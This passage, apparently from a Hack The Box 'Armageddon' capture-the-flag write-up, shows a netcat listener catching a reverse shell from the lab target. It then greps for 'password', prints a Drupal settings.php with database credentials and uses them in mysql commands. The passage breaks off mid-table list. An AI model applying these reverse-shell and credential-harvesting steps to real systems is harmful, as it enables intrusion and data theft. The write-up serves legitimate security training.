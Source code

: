 And we get shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Armageddon]
└──╼ $nc -lvp 53
listening on [any] 53 ...
10.10.10.233: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.233] 34424
bash: no job control in this shell
bash-4.2$ whoami
whoami
apache
bash-4.2$ 

```

By running the command `grep -r "password" .`, we are searching recursively through the current directory for any files that contain the string `"password"`.

This command might have returned the file `./sites/default/settings.php` which contains the following database password:
```php
...
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);

```

Now that we have obtained the database password from the settings file, we can use it to connect to the database and view its contents:
```console
bash-4.2$ mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "show databases;"
mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "show databases;"
Database
information_schema
drupal
mysql
performance_schema
bash-4.2$ mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal; show tables;"
<er -pCQHEy@9M*m23gBVj -e "use drupal; show tables;"                         
Tables_in_drupal
actions
authmap
batch
block
block_custom
block_node_type
block_role
blocked_ips
cache
cache_block
cache_bootstrap
cache_field
cache_filter
```